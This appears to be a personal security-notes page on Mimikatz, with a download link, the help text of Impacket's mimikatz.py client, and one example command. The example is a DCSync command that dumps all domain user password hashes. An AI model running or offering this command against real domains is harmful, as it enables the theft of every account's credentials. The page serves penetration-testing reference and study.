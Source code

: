 ```yaml
---
title : "Mimikatz"
# pre : ' '
description : "Is a tool I've made to learn C and make somes experiments with Windows security."
date : 2020-03-13T22:19:32+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Framework', 'LSASS']
---
```


## Mimikatz

Is a tool I've made to learn C and make somes experiments with Windows security.

## Installation

Download newest release from [Github.com](https://github.com/gentilkiwi/mimikatz/releases)

## Usage

```plain
mimikatz.py [-h] [-file FILE] [-debug] [-hashes LMHASH:NTHASH]
            [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address]
            [-target-ip ip address]
            target
```

## Flags

```plain
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

SMB client implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -file FILE            input file with commands to execute in the mini shell
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```

## Examples

### Dump all user hashes (on client system)

```plain
lsadump::dcsync /domain:example.local /all /csv
```

## URL List

* [GitHub.com - Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [GitHub.com - Impacket](https://github.com/SecureAuthCorp/impacket/releases)
